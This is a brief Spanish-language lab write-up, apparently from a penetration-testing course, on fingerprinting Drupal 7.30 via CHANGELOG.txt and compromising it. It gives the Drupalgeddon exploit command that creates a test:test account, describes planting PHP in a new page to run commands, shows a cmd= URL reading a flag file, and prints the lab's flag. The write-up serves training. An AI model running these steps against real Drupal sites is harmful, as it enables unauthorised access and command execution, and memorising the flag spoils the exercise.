


# Laboratorio: Drupal 🏫

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
--
2. Visitamos el **archivo `CHANGELOG.txt`** para conocer la versión de **Drupal** 💧
* **URL:** `http://drupal-qa.inlanefreight.local/CHANGELOG.txt`

**Output**
```java
Drupal 7.30, 2014-07-24
-----------------------
<SNIP>
```
---

# Laboratorio: Attacking Drupal 🔋

1. Ejecutamos el script [Drupalgeddon](https://www.exploit-db.com/exploits/34992)
* `python2 drupalgeddon.py -t http://drupal-dev.inlanefreight.local/ -u test -p test`
----

2. Una vez loguados como `test:test` hacemos lo siguiente

<p align="center">
    
</p>

---

3. Ahora ya podemos podemos crear una `nueva página` y colocar código php para ejecutar **comandos**

<p align="center">
    
</p>

---

4. Leemos la `flag`
* **URL:** `http://drupal-qa.inlanefreight.local/node/[N]?cmd=cat%20../drupal.inlanefreight.local/flag_[ID].txt`

* **Flag:** `DrUp@l_drUp@l_3veryWh3Re!`